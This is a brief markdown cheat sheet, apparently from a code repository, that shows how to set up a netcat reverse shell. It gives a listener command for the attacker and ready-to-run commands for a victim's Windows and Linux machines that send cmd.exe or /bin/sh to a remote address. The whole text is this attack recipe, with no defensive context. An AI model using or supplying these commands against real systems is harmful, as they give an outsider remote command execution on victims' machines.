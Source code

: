 #### Create a reverse shell connection from a netcat client to a netcat netcat listener.

##### Attacker
```
nc -l -p 8888
```

##### Victim's Machine 
**Windows**
```
nc ip 8888 -e cmd.exe
```

**Linux**
```
nc ip 8888 -e /bin/sh
```

